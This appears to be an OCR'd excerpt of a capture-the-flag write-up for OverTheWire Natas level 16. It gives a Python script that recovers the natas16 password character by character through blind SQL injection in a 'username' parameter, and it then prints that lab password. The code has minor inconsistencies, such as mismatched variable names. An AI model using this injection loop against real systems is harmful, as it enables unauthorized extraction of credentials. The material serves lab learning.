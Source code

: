 ```python

#Then the rest of the code was built after understanding the TRUE and the FALSE response we received. 
for i in range(32): #we know that the hash is 32 bits long, so we will need to guess 32 characters and hence iterate 32 times.
    for j in ch: #iterate through every character from the charset
        resp = requests.get(url,auth=auth, params = {"username":"natas16\" and password like binary \""+"".join(passwdlist)+j+"%"}) #perform a get request
        if "This user exists" in resp.text: #if we get a TRUE response, it means a character matches the original hash. 
            print(f"The character no {i+1} of the password found is : {j}")
            passwordlist.append(j) #append the matching character to the hash
            break

password = "".join(passwordlist)

print(f"\nThe password for Natas Level 16 is : {password}")

```

Credentials for the next challenge which is level 16 -> 17 are username - _natas16_ and password - _TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V_ 